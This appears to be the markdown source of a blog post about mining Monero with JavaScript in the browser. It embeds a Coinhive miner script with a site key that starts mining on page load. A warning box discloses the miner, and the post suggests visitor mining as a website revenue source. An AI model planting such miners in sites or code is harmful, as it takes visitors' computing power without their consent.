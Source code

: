 ```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: Via Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<a href="https://getmonero.org/" >Monero (XMR)</a> is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.
To mine Monero, you have to calculate hashes with an algorithm called Cryptonight.
This algorithm is very compute heavy and – while overall pretty slow – was designed to run well on consumer CPUs.

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>

I've hard coded the miner to only operate using 1 thread so it does not hog your CPU.
If you wanted to maximize your Hash Rate you could run a thread per core and these numbers would be 2x-4x greater.

### What can it be used for?
1. Used as an additional revenue source for websites
2. Offer premium services to customers who run miner
3. 

### How efficient is it?
There is definitely room for improvment when it comes to efficiency.
That being said I was pretty impressed how it compared to native mining. 
Mining in the browser is about 65% as efficient.

The important thing to note here is that a single visitor may not produce much hashing power but if you have a couple hundred people hitting a page it adds up quick.

### Is it easy to do? 
It is actually extremely easy to do, expect a new blog coming soon that explains how to implement one.
